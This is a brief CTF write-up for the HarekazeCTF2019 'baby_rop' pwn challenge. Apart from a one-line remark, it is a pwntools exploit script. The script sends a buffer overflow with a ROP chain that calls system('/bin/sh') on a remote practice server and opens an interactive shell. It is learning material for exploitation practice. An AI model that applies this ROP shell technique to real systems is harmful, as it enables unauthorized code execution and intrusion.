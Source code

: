 # [HarekazeCTF2019]baby_rop

## Information

- Category: Pwn
- Points: 1

## Write-up

和前面 `jarvisoj_level2_x64` 差不多。

## Exploit

```python
#!/usr/bin/env python3

from pwn import ROP, args, context, flat, process, raw_input, remote

FILE = "./babyrop"
HOST, PORT = "node5.buuoj.cn", 28698

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)
    return target


def main():
    target = launch()

    rop = ROP(elf)
    payload = flat(
        b"A" * 0x18,
        rop.rdi.address,
        next(elf.search(b"/bin/sh")),
        rop.ret.address,
        elf.plt["system"],
    )

    # raw_input()
    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```
